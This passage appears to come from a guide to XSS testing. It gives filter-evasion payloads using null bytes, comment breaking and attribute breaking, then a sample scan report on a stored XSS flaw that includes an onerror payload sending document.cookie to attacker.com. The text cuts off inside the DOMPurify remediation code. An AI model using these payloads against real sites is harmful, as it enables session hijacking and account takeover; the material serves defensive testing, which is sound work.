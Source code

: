 ### Null Bytes
```html
<scri\x00pt>alert(1)</scri\x00pt>
<img src=x onerror\x00=alert(1)>
```

### Comment Breaking
```html
<!--><script>alert(1)</script>-->
<script><!--*/alert(1)//--></script>
```

### Attribute Breaking
```html
<input value="test" onclick=alert(1) ">
<input value='test' onclick='alert(1)' '>
```

## Example Report

```
XSS VULNERABILITY SCAN REPORT
==============================
URLs Tested: 150
Parameters Tested: 450
Vulnerabilities Found: 8
Critical: 3
High: 4
Medium: 1

CRITICAL VULNERABILITIES
------------------------

1. Stored XSS in User Profile
   Location: /api/profile/update
   Parameter: bio
   Type: Stored XSS
   Severity: CRITICAL (CVSS 9.0)

   Vulnerable Endpoint:
   POST /api/profile/update
   {
       "bio": "<script>alert(document.cookie)</script>"
   }

   Stored Location: users.bio column
   Triggered When: Profile viewed by any user

   Payload:
   <img src=x onerror="
       fetch('https://attacker.com/steal?cookie=' + document.cookie)
   ">

   Impact:
   - Session hijacking for all users viewing profile
   - Cookie theft
   - Account takeover
   - Worm propagation

   Remediation:
   // Server-side (Node.js)
   const DOMPurify = require('isomorphic-dompurify');

   app.post('/api/profile/update', (req, res) => {
```